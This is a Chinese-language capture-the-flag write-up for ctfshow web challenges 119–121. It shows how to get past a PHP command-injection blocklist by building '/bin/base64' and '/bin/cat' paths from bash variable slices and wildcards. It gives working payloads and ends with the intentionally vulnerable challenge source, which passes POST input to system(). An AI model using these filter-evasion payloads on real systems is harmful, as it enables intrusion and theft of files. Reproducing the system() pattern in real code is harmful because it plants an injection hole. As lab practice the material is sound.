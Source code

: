 该题比上题多过滤了path

### 解法一

可以构造出`/bin/base64 flag.php`，只需要/和4两个字符就行，其他的可以用通配符代替

/很简单，pwd的第一位就是，因为这题ban了数字，所以可以用该题值必是1的`${#SHLVL}`绕过：

> SHLVL 是记录多个 Bash 进程实例嵌套深度的累加器,进程第一次打开shell时${SHLVL}=1，然后在此shell中再打开一个shell时$SHLVL=2。

只需要`${PWD::${SHLVL}}`，结果就是`/`



还有一个4的问题，可以用`${#RANDOM}`，在Linux中，`${#xxx}`显示的是这个值的位数，例如12345的值是5，而random函数绝大部分产生的数字都是4位或者5位的，因此可以代替4.

![](http://img.npfs06.top/20210225150320.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

payload：

```bash
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?????${#RANDOM} ????.???
这题要多提交几次，以为random存在随机性
```

### 解法二：

可以构造`/bin/cat flag.php`,需要t和/，`${HOME}`默认是`/root`，所以需要得到他的最后一个字母，容器的hostname为4个字母，所以`${#HOSTNAME}`可以从第5位开始，1还是用`${#SHLVL}`代替

payload:

```bash
code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
```



## web 120

同web 119



## web 121

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|HOME|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>

```
